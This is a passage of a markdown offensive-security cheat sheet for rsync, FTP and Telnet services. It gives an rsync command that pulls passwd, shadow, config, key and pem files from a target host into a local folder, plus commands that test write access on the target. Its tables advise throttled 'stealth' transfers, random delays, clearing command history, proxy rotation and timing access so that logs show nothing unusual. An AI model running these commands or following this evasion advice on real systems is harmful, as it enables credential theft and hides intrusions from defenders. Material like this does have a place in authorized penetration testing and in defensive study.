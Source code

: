 ### High-Value File Extraction

```bash
rsync -avz --include="*passwd*" --include="*shadow*" --include="*config*" \
--include="*.conf" --include="*.cfg" --include="*.ini" \
--include="*.bak" --include="*.sql" --include="*.key" \
--include="*.pem" --exclude="*" <target_ip>::<module>/ ./intel/
```

### Write Access Testing

| Command | Description |
|---------|-------------|
| `echo "rsync_test_$(date)" > test_file.txt` | Create test file |
| `rsync -avz test_file.txt <target_ip>::<module>` | Attempt upload |
| `rsync --list-only <target_ip>::<module>/ \| grep test_file.txt` | Verify upload |

## Detection Evasion & Operational Security

### Traffic Obfuscation

| Technique | Command Example |
|-----------|-----------------|
| Bandwidth limiting | `rsync -avz --bwlimit=50 --delay-updates <target>::<module>/ ./stealth_dump` |
| Randomized delays | `sleep $((RANDOM % 300 + 60))` (1-6 minute random delay) |

### Log Evasion

| Protocol | Evasion Technique |
|----------|-------------------|
| FTP | Use realistic email addresses for anonymous login |
| Telnet | Clear command history before disconnect |
| Rsync | Use bandwidth limiting to appear as legitimate sync |

### Common Log Entries to Avoid

| Protocol | Suspicious Pattern | Mitigation |
|----------|-------------------|------------|
| FTP | Multiple failed login attempts | Use valid credentials or space out attempts |
| FTP | Bulk file downloads | Limit bandwidth and randomize timing |
| Telnet | Administrative commands from unknown IPs | Use VPN/proxy rotation |
| Telnet | History of reconnaissance commands | Clear history before disconnect |
| Rsync | Large data transfers | Use bandwidth limiting |
| Rsync | Access to sensitive modules | Access during high-traffic periods |

